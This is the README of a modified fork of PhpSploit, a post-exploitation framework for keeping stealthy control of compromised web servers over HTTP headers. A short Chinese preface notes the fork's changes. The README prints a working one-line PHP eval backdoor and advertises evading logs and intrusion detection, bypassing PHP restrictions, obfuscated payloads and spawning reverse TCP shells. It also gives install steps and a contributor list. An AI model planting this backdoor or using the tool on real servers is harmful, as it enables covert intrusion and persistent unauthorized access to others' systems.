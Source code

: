 # 修改后：

1. 修改只默认post请求 
2. 添加了AES加密
3. 大文件超过15M会出问题

# TODO:

1. 针对各种变形shell的支持

# 提示

1. 项目主要依赖eval来执行php代码，是一个大问题，在支持eval的环境下用不错。
2. 如果运行了过后要加载修改后的配置文件，必须删除/root/.phpsploit/config，让它重新生成加载。

### PhpSploit: _Furtive post-exploitation framework_

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

[![travis build](https://travis-ci.org/nil0x42/phpsploit.svg?branch=master)](https://travis-ci.org/nil0x42/phpsploit)
[![codacy code quality](https://api.codacy.com/project/badge/Grade/b998fe23c25f40a78c6c35c722bb9fa0)](https://app.codacy.com/app/nil0x42/phpsploit?utm_source=github.com&utm_medium=referral&utm_content=nil0x42/phpsploit&utm_campaign=Badge_Grade_Dashboard)
[![lgtm alerts](https://img.shields.io/lgtm/alerts/g/nil0x42/phpsploit.svg?logo=lgtm&logoWidth=18)](https://lgtm.com/projects/g/nil0x42/phpsploit/alerts/)
[![codecov coverage](https://codecov.io/gh/nil0x42/phpsploit/branch/master/graph/badge.svg)](https://codecov.io/gh/nil0x42/phpsploit)
[![codeclimate maintainability](https://api.codeclimate.com/v1/badges/6986200c1729b4a70a40/maintainability)](https://codeclimate.com/github/nil0x42/phpsploit/maintainability)
[![license](https://img.shields.io/github/license/nil0x42/phpsploit.svg)](https://github.com/nil0x42/phpsploit/blob/master/LICENSE)
[![requires.io requirements](https://requires.io/github/nil0x42/phpsploit/requirements.svg?branch=master)](https://requires.io/github/nil0x42/phpsploit/requirements/?branch=master)


![phpsploit demo](data/img/phpsploit-demo.png)

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/nil0x42/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate post-exploitation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any command or option (type `help`)
    -   _Cross-platform_ on both the client and the server.
    -   Powerful interface with completion and multi-command support
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD Like
-   Mac OS X
-   Windows NT

## Contributors

Thanks goes to these people ([emoji key](https://github.com/all-contributors/all-contributors#emoji-key)):

<!-- ALL-CONTRIBUTORS-LIST:START - Do not remove or modify this section -->
<!-- prettier-ignore -->
| [<img src="https://avatars1.githubusercontent.com/u/3504393?v=4" width="100px;" alt="nil0x42"/><br /><sub><b>nil0x42</b></sub>](https://exdemia.com)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=nil0x42 "Code") [🚇](#infra-nil0x42 "Infrastructure (Hosting, Build-Tools, etc)") [🔌](#plugin-nil0x42 "Plugin/utility libraries") [⚠️](https://github.com/nil0x42/phpsploit/commits?author=nil0x42 "Tests") | [<img src="https://avatars1.githubusercontent.com/u/20907184?v=4" width="100px;" alt="shiney-wh"/><br /><sub><b>shiney-wh</b></sub>](https://github.com/shiney-wh)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=shiney-wh "Code") [🔌](#plugin-shiney-wh "Plugin/utility libraries") | [<img src="https://avatars3.githubusercontent.com/u/1619783?v=4" width="100px;" alt="Wannes Rombouts"/><br /><sub><b>Wannes Rombouts</b></sub>](http://wapiflapi.github.io)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=wapiflapi "Code") [🚧](#maintenance-wapiflapi "Maintenance") | [<img src="https://avatars1.githubusercontent.com/u/6031769?v=4" width="100px;" alt="Amine Ben Asker"/><br /><sub><b>Amine Ben Asker</b></sub>](http://yurilz.com)<br />[💻](https://github.com/nil0x42/phpsploit/commits?author=yurilaaziz "Code") [🚧](#maintenance-yurilaaziz "Maintenance") | [<img src="https://avatars1.githubusercontent.com/u/5619153?v=4" width="100px;" alt="jose nazario"/><br /><sub><b>jose nazario</b></sub>](http://twitter.com/jnazario)<br />[📖](https://github.com/nil0x42/phpsploit/commits?author=paralax "Documentation") [🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Aparalax "Bug reports") | [<img src="https://avatars3.githubusercontent.com/u/156915?v=4" width="100px;" alt="Sujit Ghosal"/><br /><sub><b>Sujit Ghosal</b></sub>](http://wikisecure.net)<br />[📝](#blog-sujit "Blogposts") | [<img src="https://avatars3.githubusercontent.com/u/3418725?v=4" width="100px;" alt="Zerdoumi"/><br /><sub><b>Zerdoumi</b></sub>](https://github.com/sohelzerdoumi)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Asohelzerdoumi "Bug reports") |
| :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| [<img src="https://avatars3.githubusercontent.com/u/5489330?v=4" width="100px;" alt="tristandostaler"/><br /><sub><b>tristandostaler</b></sub>](https://github.com/tristandostaler)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Atristandostaler "Bug reports") | [<img src="https://avatars3.githubusercontent.com/u/16543074?v=4" width="100px;" alt="Rohan Tarai"/><br /><sub><b>Rohan Tarai</b></sub>](https://github.com/rohantarai)<br />[🐛](https://github.com/nil0x42/phpsploit/issues?q=author%3Arohantarai "Bug reports") |
<!-- ALL-CONTRIBUTORS-LIST:END -->

_This project follows the [all-contributors](https://github.com/all-contributors/all-contributors) specification. Contributions of any kind welcome!_

